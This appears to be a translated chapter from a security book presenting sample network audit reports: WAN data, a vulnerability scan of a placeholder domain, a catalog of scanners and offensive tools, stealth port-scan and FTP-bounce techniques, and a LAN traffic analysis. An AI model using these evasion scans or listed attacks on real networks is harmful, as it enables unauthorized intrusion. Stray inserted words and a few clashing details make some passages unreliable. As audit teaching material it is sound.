广域网包括一个帧中继云，通过永久虚电路（PVC）连接到芝加哥、密尔沃基、菲尼克斯和奥兰多（表 7.1）。帧中继使多个网络能够共享广域网介质和可用带宽。帧中继通常比点对点租用线路成本更低。直接租用线路的成本基于端点之间的距离，而帧中继用户的成本则基于所需的带宽分配。帧中继用户将与其他用户共享路由器、数据服务单元（DSU）和骨干网带宽，从而降低使用成本。PVC 为帧中继上的 DTE 设备之间的频繁数据传输提供通信会话。一条专用的点对点 T1 租用线路从芝加哥总部位置提供互联网接入（见图 7.2 和图 7.3）。

| | 路由器 | Web 服务器/ DNS | 代理/ 防火墙 | SMTP |
|---|---|---|---|---|
| **芝加哥** | | | | |
| IP 地址 | xxx.xxx.xxx.xx | xxx.xxx.xxx.xxx（网站） | xxx.xxx.xxx.xxx（外部） | xxx.xxx.xxx.xxx |
| 网关 | xxx.xxx.xxx.xxx | xxx.xxx.xxx.xxx | xxx.xxx.xxx.xxx | |
| DNS | xxx.xxx.xxx.xxx | xxx.xxx.xxx.xxx | xxx.xxx.xxx.xxx | |
| **用户** | | | | |
| IP 地址 | xxx.xxx.xраф.xxx – xxx.xxx.xxx.xxx | | segregate | |
| 网关 | xxx.xxx.xxx.xxx | | | |
| DNS | xxx.xxx.xxx.xxx | | | |
| **密尔沃基** | | | | |
| **用户** | | | | |
| IP 地址 | xxx.xxx.xxx.xxx – xxx.xxx.xxx.xxx | | | |
| 网关 | xxx.xxx.xxx.xxx | | | |
| DNS | xxx.xxx.xxx.xxx | | | |
| **菲尼克斯** | | | | |
| **用户** | | | | |
| IP 地址 | xxx.xxx.xxx.xxx – xxx.xxx.xxx.xxx | | | |
| 网关 | xxx.xxx.xxx.xxx | | | |
| DNS | xxx.xxx.xxx.xxx | | | |

表 7.1 图 7.3 中的广域网数据示例

| 表 7.1 | 图 7.3 中的广域网数据示例（续） |

### 奥兰多

### 用户

| IP 地址 | xxx.xxx.xxx.xxx – xxx.xxx.xxx.xxx |
| 网关 | xxx.xxx.xxx.xxx |
| DNS | xxx.xxx.xxx.xxx |

### 结果

| 漏洞总数 | 93 |
| 高风险 | 3 |
| 中风险 | 10 |
| 低风险 | 80 |

### 主机 172.29.44.4 的报告

以下是图 7.3 和表 7.1 中主机 172.29.44.4 的报告。

警告！此网络上的主机已完全受损！

以下主机（172.29.44.5）被发现存在影响系统完整性的高风险漏洞（见表 7.2）。远程攻击者极有可能获得对此系统的完全控制，并利用它来访问网络上的其他资源。系统上存在的许多重大漏洞易于利用，这意味着攻击者只需很少的技巧即可做到。识别出的一些漏洞相当流行，因此很可能被互联网攻击者使用的自动扫描程序识别到。

| 表 7.2 | 主机漏洞 | |
|---|---|---|
| | 主机 | 网络 |
| 高风险 | 2 个漏洞 | 3 个漏洞 |
| 中风险 | 2 个漏洞 | 10 个漏洞 |
| 低风险 | 9 个漏洞 | 80 个漏洞 |

互联网

帧中继

#### 图 7.2 主机漏洞。

#### 图 7.3 广域网基础设施发现低层视图。

## 主机分析

基于从此主机被动探测获得的信息，可以对其整体安全性得出以下结论：

**主要威胁。** 存在高风险漏洞，影响如下方面：系统完整性、可问责性、授权和可用性。

**实施。** 此主机上的漏洞主要源于软件实施问题。必须关注此主机，确保其更新至最新的相关供应商安全补丁。

### 远程漏洞分析样本报告

第 552 页的样本报告来源于 Nmap（www.insecure.org）、TigerSuite Pro 2.5（www.TigerTools.net）、SAINT（www.wwdsi.com）和 CyberCop Scanner（www.pgp.com）。

#### Nmap

根据其作者 Fyodor 的说法，Nmap 主要是一个用于大型网络端口扫描的实用工具，尽管它对单个主机也同样适用。Nmap 创建的核心理念是 Perl 的口号 TMTOWTDI（有多种方法可以做到）。有时你需要速度；其他时候你可能需要隐蔽性。在某些情况下，可能需要绕过防火墙；或者你可能想扫描不同的协议（UDP、TCP、ICMP 等）。你无法用一种扫描模式完成所有这些，也不希望在身边有 10 个不同的扫描器，每个都有不同的界面和功能。因此，Nmap 几乎整合了所有已知的扫描技术。

Nmap 还支持许多性能和可靠性功能，例如动态延迟时间计算、数据包超时和重传、并行端口扫描、通过并行 ping 检测掉线主机；灵活的目标和端口规范、诱饵扫描、TCP 序列可预测性特征确定，以及输出到机器可读或人类可读的日志文件。

#### TigerSuite

TigerSuite 包含一套完整的安全发现和渗透工具。

## 工具

- Finger 查询
- DNS 查询
- IP/主机名查找器
- NS 查找
- Telnet 会话
- 路由跟踪
- WhoIs 查询
- **全新！** TigerWipe
- **全新！** TigerLock

### 渗透器

- 缓冲区溢出器
- FTP 破解器
- FTP 泛洪器
- HTTP 破解器
- HTTP 泛洪器
- **更新！** 邮件炸弹
- **更新！** 邮件欺骗器
- 密码破解器
- **更新！** Ping 泛洪器
- 服务器端崩溃器
- **更新！** TCP 泛洪器
- TigerBreach 渗透器
- **更新！** UDP 泛洪器
- Win 崩溃器

### 扫描器

- Ping 扫描器
- IP 范围扫描
- IP 端口扫描器
- 网络端口扫描器
- 站点查询扫描
- 代理扫描器
- **更新！** 特洛伊木马扫描器

### 模拟器

- **更新！** TigerSim：
  - 虚拟服务器模拟器

### 系统状态

- CMOS
- 磁盘空间
- 卷信息
- 内存
- 电源
- 处理器
- 网络
- IP、ICMP、TCP、UDP

### 间谍活动

- **全新！** PortSpy 通信嗅探器

### SAINT

安全管理员集成网络工具（SAINT）是 SATAN 的更新增强版本，旨在评估计算机网络的安全性。在其最简单模式下，SAINT 通过检查 finger、NFS、NIS、FTP 和 TFTP、rexq、statd 等网络服务，尽可能多地收集有关远程主机和网络的信息。收集的信息包括各种网络信息服务的存在，以及潜在的安全漏洞。然后，SAINT 可以报告这些数据，或使用简单的基于规则的系统来调查任何潜在的安全问题。用户随后可以使用 HTML 浏览器（如 Netscape 或 Lynx）查看、查询和分析输出。虽然该程序主要侧重于分析结果的安全影响，但可以从该工具中获得大量常规网络信息——网络拓扑、正在运行的网络服务、网络上使用的硬件和软件类型等。

但 SAINT 的真正威力在探索模式下才得以发挥。基于初始数据收集和用户可配置的规则集，它将检查信任和依赖途径，并对次要主机进行进一步的数据收集迭代。这不仅允许用户分析自己的网络或主机，还可以检查网络信任和服务中固有的影响，并帮助他们就所涉及系统的安全水平做出合理的决策。

### CyberCop Scanner

CyberCop Scanner 是业界最佳的风险评估工具之一，它识别安全漏洞以防止入侵者访问您的关键任务数据。它揭示弱点、验证策略并执行企业安全策略。它测试 NT 和 *NIX 工作站、服务器、集线器和交换机，并对防火墙和路由器进行全面的周界审计。CyberCop Scanner 将强大的架构和全面的安全数据相结合，确保您的电子商务安全无忧。

- 验证您的安全系统和策略的有效性。
- 确保您的系统已使用最完整的安全检查列表进行测试。
- 提供深入的评估细节，帮助您加强网络安全。

CyberCop Scanner：

- 包含数百项安全测试。
- 使用超过 830 项漏洞检查、当前安全信息和自动更新功能识别安全漏洞。


 + 提供更高的速度和效率。
- 获得专利的引擎可同时扫描超过100台主机，并对网络设备仅执行适用的测试。
- 提供修复建议和即时修复功能。
- 帮助管理员修复问题、优先处理工作量，并通过简单的鼠标点击修复漏洞。
- 提供网络快照。
- 探索网络中的响应设备而无需扫描它们，以创建3D地图并简化网络管理。
- 包含用户自定义安全测试。
- 允许安全专业人员使用自定义审核脚本语言（CASL) 工具编写定制化测试。
- 具有简洁的界面。
- 采用直观的图形用户界面 (GUI) 设计，便于浏览功能和产品的各项控制。
- 提供详细的报告。
- 使用Seagate Crystal Reports 6.0，轻松生成包含复杂图形和文本工具、预定义模板和自定义功能的详细报告。

在Windows NT、Windows 2000和Windows XP上，安装和使用安全管理界面以及CyberCop扫描仪必须满足的最低系统要求如下：

+ - Windows NT 4.0 with Service Pack 4.0
- Internet Explorer 4.0 SP1
- 266 MHz Pentium II processor
- 128 MB of RAM
- 200 MB of free disk space

### 示例报告

#### 目录

#### 简介

### 发现分析

+ - WhoIs域名搜索查询
  - 标准报告 Whois查询结果
- 主机名/PING/追踪查询
  - 标准报告 查询结果
- 站点查询扫描
  - 标准报告 站点查询扫描结果
- 端口扫描
  - 标准报告 端口扫描结果

## 漏洞分析

+ - 标准报告 漏洞渗透结果
  - STANDARDREPORT.com (172.16.0.1)。

#### 简介

**TigerTools.net**与**ValCom专业计算机中心**合作，提供具有成本效益的安全审计程序。TigerTools在此独特合作伙伴关系中的作用是提供全方位的外部安全审计，该审计可在非高峰时段执行，从而最大限度地减少对客户的影响。ValCom专业计算机中心在此独特合作伙伴关系中的作用是为客户提供"行动计划"，以解决Tiger Tools安全审计程序发现的安全问题。ValCom专业计算机中心还可以提供必要的资源以支持该"行动计划"。

我们的安全检测内容会定期更新，符合**CERT协调中心**、**SANS研究所**、**Incidents-Org**和**RHN警报**发布的漏洞信息。这些检测包含用于对PC系统、服务器、防火墙、代理、*调制解调器*以及筛选路由器执行扫描的先进工具，以识别安全漏洞。这些检测通过针对目标系统运行*模块*来工作。模块是代码片段和脚本，用于检查目标系统上的漏洞或尝试利用目标系统的漏洞。

模块根据其功能被分组为*模块类*。例如，某些模块类收集入侵者可能对计算机做出的假设信息，这些假设可能使他们能够突破您的安全防线。其他模块类针对目标主机运行测试，以确定易受攻击的硬件或软件是否实际存在于该机器上。还有一些模块类发起敌对的拒绝服务攻击，寻找那些只有通过实际向目标主机发起攻击才能正确检测的漏洞。

我们的远程安全检测扫描的独特之处在于其双重过程。该过程不仅扫描SANS、CERT、Incidents-Org和RHN警报的漏洞，而且该分析旨在绘出充满IP过滤器、防火墙、路由器和其他障碍的网络地图，使其成为检查系统漏洞不可或缺的工具。即使目标系统配置为对"存活查询"（如PING、追踪路由和端口扫描）无响应，此过程也能证明其有效性。

安全检测远程探测基于TCP/IP的系统平台（IPv4、IPv6和Big IP）上的弱点，包括路由器、代理、调制解调器、交换机、服务器和PC。也就是说，约有16,000个独特的模块用于测试针对系统防御的漏洞。

#### 标准检测

本报告是根据我们的标准安全检测编制的。该过程探测您的系统是否存在许多常被黑客、骇客和脚本小子利用的安全漏洞。我们的漏洞利用数据库会频繁更新，以防范当前漏洞。这些漏洞以及详细的问题描述、后果和 suggested solutions，均被编入本报告中。

#### 标准报告

本报告仅包含作为请求IP地址的系统：207.8.181.209。

### 隐私

对我们来说，没有什么比保护客户的信任更重要。因此，我们严格遵守确保个人可识别信息（如姓名、地址、电子邮件地址、电话号码、IP地址、漏洞和/或其他可识别信息）隐私的政策，并维护此在线媒介的完整性。

如有任何问题或疑虑，请发送电子邮件至 scan@tigertools.net。

### 发现分析

如今，技术信息和企业间谍活动的门户大开，引起全球企业日益增长的忧虑。黑客使用统称为*发现*的技术来目标网络信息。发现技术与扫描技术密切相关。扫描可利用的安全漏洞已被使用多年。其想法是探测尽可能多的端口，并记录那些对特定黑客攻击有响应或有用的端口。扫描程序报告这些响应的监听器，分析弱点，然后将这些脆弱性与已知攻击方法数据库进行交叉引用，以进一步利用。

发现是计划对本地或远程网络发起攻击的第一步。有预谋的、严重的黑客攻击尝试需要一些关于目标网络的知识。*远程攻击*被定义为使用通信协议通过通信介质从目标网络外部发起的攻击。以下技术是我们为通过互联网发起远程攻击进行发现准备时执行的。

#### Whois域名搜索查询

在Internet上查找特定网络可能就像大海捞针；虽然可能，但困难重重。Whois是一种Internet服务，使用户能够查找给定公司或在该域拥有账户的用户的URL等信息。

执行whois域名搜索查询需要在Internet上定位目标公司的网络域名。域名是连接到Internet或任何其他TCP/IP网络的设备的地址，在一种使用单词来标识服务器、组织和组织类型的系统中，例如www.companyname.com。提供whois搜索的主要域名是Internet网络信息中心 (InterNIC)。InterNIC负责注册域名和IP地址，以及分发有关Internet的信息。

以下列表包含提供Whois服务的域名的特定URL：

+ - **www.networksolutions.com/cgi-bin/whois/whois。** InterNIC北美域相关信息。
- **www.ripe.net。** 欧洲相关信息。
- **www.apnic.net。** 亚太相关信息。

**可能的问题：** 未经授权的个人伪装成可能的可信来源，可能利用上述某些信息发起社会工程攻击。

**建议：** 一种替代方案是使用别名联系信息注册域名。应使用通用联系人或别名以及通用电子邮件地址。例如：

```
IT Manager
ITManager@STANDARDREPORT.com
```

STANDARD REPORT已被定位并验证为有效的Internet域。详细的WHOIS搜索显示以下相关信息：

Company: STANDARD REPORT
    123 Any Street
    Chicago, IL 60655


 **SR01** 标准报告 Whois 域查询结果。

```
Domain URL: www.STANDARDREPORT.com

Administrative Contact: Public, John Q.  jpublic@STANDARDGROUP.com
                                     (773-555-1212)

Domain servers:  NS1.STR.COM    172.106.1.2
                 NS2.STR.COM    172.8.186.2
```

#### 主机名/PING/跟踪查询

通过执行简单的主机 ICMP 回显请求（PING），我们将揭示 IP 地址 172.16.0.1 的主机名。PING，即 Packet INternet Groper 的缩写，是一种用于测试特定计算机是否连接到互联网的协议；它向该计算机的 IP 地址发送数据包并等待响应。**可能存在的问题：** 如 SR02 所示，PING 可用于发现正在监听的设备。一旦设备响应，就可以对该设备运行额外的查询以确定漏洞。

**建议：** 一种可能的修复方法是关闭对 PING 的响应。这将使黑客更难找到给定设备，尽管这也会使故障排除更加困难。此外，如果外围网络互联设备不支持此修复措施，这样做可能不切实际。

556 次黑客攻击被拒绝

SR02 标准报告 NS 查询结果。

| 跳数 | IP 地址 | 节点名称 | 位置 | 图表 | 网络 |
|---|---|---|---|---|---|
| 0 | | | | 0 544 | (私有使用) |
| 1 | | | | | |
| 2 | | | | | |
| 3 | | | | | |
| 4 | | | | | |
| 5 | | | | | |
| 6 | | | | | |
| 7 | | | | | |
| 8 | | | | | |
| 9 | 65.106.0.21 | pb-0-0.RAR1.SanJose-CA.us.xo.net | 加利福尼亚州圣何塞，美国 | | Concentric Network Ci |
| 10 | 64.220.0.18 | ge10-0 tran2.pal-ca.us.xo.net | 加利福尼亚州圣何塞 95126-3 | | Concentric Network Ci |
| 11 | 64.0.0.98 | p1-0.web2.sjc-ca.us.xo.net | 加利福尼亚州圣何塞 95126-3 | | Concentric Network Ci |
| 12 | 207.195.248.7 | tigertools.net | | | Concentric Network Ci |

SR03 标准报告 主机名/PING/跟踪查询结果。

#### 站点查询扫描

站点查询扫描的主要目的是消除目标节点发现的猜测工作。这些扫描技术基于给定地址或主机名完成信息查询。输出字段显示目标操作系统、FTP、HTTP、SMTP、POP3、NNTP、DNS、Socks、代理、telnet、Imap、Samba、SSH 和/或 finger 服务器守护程序的当前类型和版本。其目的是节省数小时的信息发现时间，以便有更多时间进行渗透分析。

注：站点查询扫描问题将在本报告后面部分讨论。

**SR04** 标准报告 站点查询扫描结果。

**SR05** 标准报告 端口扫描结果。

### 端口扫描

我们的扫描器通过互联网发送多个数据包，遵循利用服务端口的各种协议，然后监听并记录每个响应。在此阶段，我们仅扫描以发现活动地址及其开放端口。黑客不会花费大量时间进行渗透扫描和漏洞测试，因为这可能导致他们自身被检测。此服务采用已知技术检查端口和协议，包括：

- **TCP 端口扫描。** 这是最基本的扫描形式。使用此方法，您尝试打开完整的 TCP 端口连接以确定该端口是否活动，即"正在监听"。

- **TCP SYN 扫描。** 这种技术通常被称为*半开*或*隐蔽*扫描，因为您不会打开完整的 TCP 连接。您发送一个 SYN 数据包，就好像您要打开真正的连接一样，然后等待响应。SYN/ACK 表示端口正在监听。因此，RST 响应表示非监听器。如果收到 SYN/ACK，您会立即发送 RST 以拆除连接。这种扫描技术的主要优点是很少会有站点记录它。

#### TCP FIN 扫描

有时即使 TCP SYN 扫描也不足以避免被记录。某些防火墙和包过滤器会监视受限端口的 SYN，而 Synlogger 和 Courtney 等程序则可以完全检测这些扫描。另一方面，FIN 数据包可能能够不受干扰地通过。其思路是，关闭的端口往往会用适当的 RST 回复您的 FIN 数据包，而开放的端口往往会忽略所讨论的数据包。

#### 分片扫描

这是其他技术的变体。不仅仅是发送探测数据包，而是将其分成几个小的 IP 片段。基本上，您是将 TCP 头部分割到多个数据包上，以使包过滤器更难检测到正在发生什么。

#### TCP 反向 Ident 扫描

正如 Dave Goldsmith 在 1996 年 bugtraq 帖子中指出的那样，ident 协议（RFC1413）允许披露通过 TCP 连接的任何进程的所有者的用户名，即使该进程没有发起连接。因此，例如，您可以连接到 http 端口，然后使用 identd 来查明服务器是否以 root 权限运行。

#### FTP 反弹攻击

FTP 协议（RFC 959）的一个有趣"特性"是支持"代理"FTP 连接。换句话说，您应该能够从 evil.com 连接到 target.com 的 FTP 服务器-PI（协议解释器）以建立控制通信连接。然后，您应该能够请求服务器-PI 发起主动服务器-DTP（数据传输进程）向互联网上的任何位置发送文件！

#### UDP ICMP 端口不可达扫描

这种扫描方法与前述方法的不同之处在于它使用 UDP 协议而不是 TCP。尽管该协议较简单，但扫描它实际上要困难得多。开放端口不必对您的探测发送确认响应，而关闭端口甚至不需要发送错误数据包。幸运的是，大多数主机在您向关闭的 UDP 端口发送数据包时会发送 ICMP_PORT_UNREACH 错误。因此，您可以查明端口是否关闭，并通过排除法确定哪些端口是开放的。

#### UDP recvfrom() 和 write() 扫描

虽然非 root 用户无法直接读取端口不可达错误，但 Linux 会在收到这些错误时间接通知用户。例如，对关闭的端口的第二次 write() 调用通常会失败。许多扫描器，如 netcat 和 Pluvius 的 pscan.c，都这样做。这是非 root 用户使用 -u（UDP）时用于确定开放端口的技术。

注：IP 端口扫描器问题将在本报告后面部分讨论。

### 端口：20、21

**服务：** 分别为 FTP-data、FTP

**黑客策略：** 端口 20 和 21 固有的服务为文件传输协议（FTP）提供可操作性。要将文件存储到 FTP 服务器或从 FTP 服务器接收文件，必须同时利用单独的数据连接。此数据连接通常通过端口 20 FTP-data 发起。在标准操作程序中，文件传输控制条款通过端口 21 强制执行。此端口通常被称为*控制连接*，基本上用于发送命令和接收相应的回复。与 FTP 相关的属性包括复制、更改和删除文件及目录的能力。

### 端口：25

**服务：** SMTP

**黑客策略：** 简单邮件传输协议（SMTP）最常被互联网使用来定义电子邮件的传输方式。SMTP 守护程序默认在端口 25 上监听传入邮件，然后将消息复制到相应的邮箱中。如果无法投递消息，则会向发送方返回一份包含不可投递消息第一部分内容的错误报告。在建立到端口 25 的 TCP 连接后，作为客户端的发送机器等待作为服务器的接收机器发送一行文本，表明其身份并告知是否准备好接收邮件。由于 TCP 的可靠字节流，通常不需要校验和。当所有电子邮件交换完毕后，连接被释放。与 SMTP 相关的最常见漏洞包括*邮件轰炸*、*垃圾邮件*以及众多*拒绝服务*（DoS）攻击。

### 端口：80/81

**服务：** http/www

**黑客策略：** HTTP 是超文本标记语言的缩写，是互联网万维网的基础协议。该协议定义了消息的格式和传输方式，并作为无状态协议运行，因为每个命令都是独立执行的，没有任何关于先前命令的知识。此守护程序运作的最佳例子发生在在浏览器中输入网站地址（URL）时。在底层，这实际上会向 Web 服务器发送一个 HTTP 命令，指示其提供或传输请求的 Web 页面到 Web 浏览器。此守护程序特定变体的主要漏洞是*网页黑客攻击*。

### 端口：109、110

**服务：** 分别为 pop2、pop3


**黑客策略：**邮局协议（POP）用于从邮件服务器守护进程检索电子邮件。历史上，POP有两个广为人知的版本：最早的POP2（来自20世纪80年代）和较新的POP3。这两个版本的主要区别在于，POP2需要SMTP服务器守护进程，而POP3可以独立使用。POP基于客户端/服务器拓扑结构，电子邮件由邮件服务器接收并保存，直到客户端软件登录并提取消息。大多数Web浏览器已在其软件设计中集成了POP3协议，例如Netscape和Microsoft浏览器。POP设计集成中的漏洞允许远程攻击者登录，以及在特定POP3账户密码被修改后，通过端口110的telnet进入这些守护进程的操作系统。另一个常见漏洞出现在黑客分析的探测阶段，通过直接telnet到目标邮件系统的110端口，以泄露关键信息。

## 漏洞分析

漏洞渗透能力可分为三个步骤：定位节点、对节点执行服务发现，以及最后测试这些服务的已知安全漏洞。

此阶段涉及用于证实 stabilized 和利用在安全分析的*发现*和*站点扫描*阶段发现的违规行为的各类漏洞渗透。黑客通常使用这些方法获取管理权限，突破并控制计算机、服务器和互联网络设备。为了帮助您更好地理解此类攻击的影响，我们将讨论本部分中发现的每个漏洞的渗透情况。

### 标准报告漏洞渗透结果

*STANDARDREPORT.com* (172.16.0.1)。

根据我们对该主机的检查获得的信息，可以对其整体安全性得出以下结论：

**警告！此主机受到威胁：**

此主机可能被远程攻击者入侵。

#### 主要威胁

中高风险漏洞存在以下影响：系统完整性。该主机的许多威胁源于支持的服务存在根本上不安全的设计。这些问题可能不易解决，应考虑将不安全的服务完全替换为更安全的替代方案。

*检测到的网络服务：*

- FTP服务器
- SMTP服务器
- WWW服务器
- WWW（安全）服务器
- WWW（非标准端口5293）服务器
- LDAP服务器

*发现的漏洞：5*

### 漏洞

1. **LDAP漏洞利用：**您的LDAP实现似乎存在漏洞；然而，必须进行高级安全分析以stabilized并进一步利用此问题。攻击者可能会导致拒绝服务或执行任意命令。

***解决方案：***此漏洞的解决方案是安装带有最新系统服务包的最新安全守护进程，或在必要时禁用。至少，应用/重新应用最新的服务包。

2. **(/query.idq)检查：** filmmaker Web服务器包含一个存在漏洞的应用程序；然而，必须进行高级安全分析以stabilized并进一步利用此问题。未经授权的用户可能会读取文件、修改文件或在服务器上执行命令。

***解决方案：***此漏洞的解决方案是安装带有最新系统服务包的最新安全Web服务器版本。

3. **(search/query.idq)检查：** Web服务器包含一个存在漏洞的应用程序；然而，必须进行高级安全分析以stabilized并进一步利用此问题。未经授权的用户似乎可以再次读取文件、修改文件或在服务器上执行命令。

***解决方案：***此漏洞的解决方案是安装带有最新系统服务包的最新安全Web服务器版本。

4. **IIS 4缓冲区溢出。**攻击者可以发送一个特别构造的请求，导致服务器崩溃，以Web服务器权限执行任意代码，和/或泄露ASP页面的源代码。已报告以下变体：

- 您的IIS配置允许远程攻击者通过畸形请求执行任意命令，该请求指向的文件名附加了操作系统命令；称为"Web服务器文件请求解析"漏洞。

- 您的IIS配置允许远程攻击者通过包含UNICODE编码字符的畸形URL读取Web根目录外的文档并可能执行任意命令；称为"Web服务器目录遍历"漏洞。

- 您的IIS配置允许远程攻击者通过带有"Translate: f"标头的HTTP GET请求获取.ASP文件及其他脚本的源代码；称为"特殊标头"漏洞。

- 您的服务器存在缓冲区溢出漏洞，允许远程攻击者通过畸形请求.HTR、.IDC或.STM扩展名的文件导致拒绝服务。

***解决方案：***如果没有高级安全分析来stabilized并进一步利用这些问题，则无法推荐准确的修复措施。一般而言，其中一些问题可以通过最新的服务器守护进程更新和最新的系统服务包来解决。同样，至少应用/重新应用最新的服务包。

5. **FTP横幅和匿名登录检查：**STANDARD REPORT ecomm1 FTP服务处于活动状态，不仅提供FTP横幅信息，还允许具有管理权限的匿名会话。通过使用标准渗透工具连接到该服务，攻击者似乎可以导致拒绝服务、执行任意命令以及删除/修改系统文件。

*解决方案：由于服务器似乎允许通过FTP端口21直接会话，我们建议安装带有最新系统服务包的最新安全服务器版本。

# 样本报告结束

# 本地基础设施审计样本

本部分阐述支持两个网段（令牌环和以太网）之间LAN网段分析的分析。此网络分析过程与各种地址、协议和数据模式布尔过滤器结合使用时，能够准确有效地捕获和定位网络故障区域。

此捕获支持实时将数据包保存到文件。在此示例中，这些文件生成了约85 MB的数据。从这些文件和输入中，生成了以下信息。

### 发现

分析IP会话中发现的主要参与单元包括IP地址172.16.0.1至172.20.10.195。发现的设备包括服务器、打印机、工作站、AS400和路由器（如图7.4所示）。

# 按协议族划分的流量构成

图7.5所示的按协议族划分的流量构成图是根据捕获期间使用的协议进行的百分比细分。每个帧都包含在图右侧列出的协议类别之一中。如果适用多种协议，帧将根据分析的最高协议进行分类，从最主导的协议开始。因此，例如，封装在帧中继内的TCP/IP帧将被归类为TCP/IP，并且帧中的所有字节都将计为TCP/IP百分比的一部分。

根据图7.6中的图表，可以得出协议百分比的细分，如表7.3所示。

# 图7.4 本地会话发现。

**图7.5** 按协议划分的流量构成。

**图7.6** 协议使用图。

# **表7.3** 协议使用百分比

| TCP/IP | IPX | NETBEUI | ERR |
|--------|-----|---------|-----|
| 48.2   | 43.4| 4.8     | 3.6 |


图 7.7 总带宽利用率。

可接受的错误数据包利用率约为 5%。检测到的一些错误数据包包括：

- **帧冻结。** 表示应用程序挂起或工作站无响应。
- **文件重传。** 表示整个文件或文件的一个子集已被重传。这通常是由于应用程序未有效使用网络造成的。
- **低吞吐量。** 表示文件传输期间的平均吞吐量为 22 Kbps。
- **重定向主机。** 表示工作站正在接收 ICMP "重定向消息"，这意味着路由器或网关可能已发送该消息，以通知工作站存在更好的路由或路由不可用。

## 总带宽利用率

本节详细列出了分析期间受监控网段上的总带宽利用率（见图 7.7）。根据收集的数据，推导出以兆字节为单位的传输量，如表 7.4 所示。

| 时间段 | 上午 7:00–上午 10:00 | 上午 10:00–下午 1:00 | 下午 1:00–下午 4:00 | 下午 4:00–下午 7:00 |
|--------|------------------------|------------------------|----------------------|----------------------|
| 传输速率（Mbps） | 271.8 | 483.2 | 510.8 | 134.9 |
| 百分比 | 19.5% | 34.4% | 36.5% | 9.6% |

表 7.4 兆字节传输量



图 7.8 平均带宽利用率。

## 平均带宽利用率

图 7.8 绘制了分析会话期间通过受监控 LAN 链路利用的平均带宽。从这些数据中，我们可以建议提高吞吐量和生产力。该图表还使我们能够可视化大约 78% 的平均带宽利用率。需要指出的是，推荐的平均利用率为 45% 到 55%。这将为开销、错误和可扩展性流量留出必要的空间。（注意：收集的此细分数据不包括错误百分比流量。）

> **Tiger 注** 带宽利用率百分比已超出阈值 28%，达到 78%。推荐的带宽平均利用率在 45% 到 55% 之间。

## 告警与阈值

图 7.9 中的图表显示了超出阈值的单元，从而触发了报告拥塞的告警。

> **Tiger 注** 告警表示由于使用细分而需要分段和冲突域的用户和/或基础设施设备。

## 突发错误

突发错误表示网络布线设施中存在信号错误。这是一个常见问题，通常由未经认证的"专业人员"安装的故障或定制布线引起。突发错误发生率图表如图 7.10 所示。

> **Tiger 注** 突发错误非常严重，因此应尽快修复。错误的主要来源是服务器。



**图 7.9** 告警与阈值。


**图 7.10** 突发错误。

## 超时与冲突

冲突是以太网网段上两个或多个节点同时尝试使用介质的结果。当发生冲突时，每个同时传输的站都会继续传输一小段时间（足以发送 4 到 6 个字节）。此延迟是为了确保所有站都知道冲突。网络上的所有站然后调用冲突退避算法。退避算法生成一个随机数，用作延迟传输的时间。生成的时间对于网络上的所有站应该不同。冲突发生率图如图 7.11 所示。

## 内部错误：网络和症状

内部错误是指站报告的**可恢复**内部错误。如果一个站报告多个内部错误，则该站被视为边际站。内部错误图如图 7.12 所示。

本节详细列出了分析期间发现的网络站及其症状，包括错误数或症状数。检测到的一些症状包括：

- **帧冻结。** 表示应用程序挂起或工作站无响应。
- **文件重传。** 表示整个文件或文件的一个子集已被重传。这通常是由于应用程序未有效使用网络造成的。
- **低吞吐量。** 表示文件传输期间的平均吞吐量为 22 Kbps。
- **重定向主机。** 表示工作站正在接收 ICMP "重定向消息"，这意味着路由器或网关可能已发送该消息，以通知工作站存在更好的路由或路由不可用。

## 基础设施建议

根据收集的数据，建议对每个网段的问题单元进行战略性重新分配，使用优先级划分。这种负载均衡将合理分配用户并均匀分配所有网段的带宽使用。为了缓解约占报告问题 78% 的 IP/IPX 拥塞，请使用新的 IP 寻址方案和协议栈重建。这将在概念上消除网段上的拥塞问题。还应使用 AppleTalk 路由进行以太网和令牌环网段之间的路由器优化。

推荐的站配置包括：

- IP (DHCP)
- IPX/SPX
- NetBIOS over IPX/SPX
- 默认网关
- 域名服务

详细研究建议在 NT 服务器上运行 DNS 服务器守护进程，以及详细的 DHCP 作用域。还建议重建 NT 服务器 SQL 守护进程和协议栈，并实施 IPX 注册表补丁，以缓解内存泄漏并防止潜在的虚拟内存停滞。



**图 7.11** 冲突。

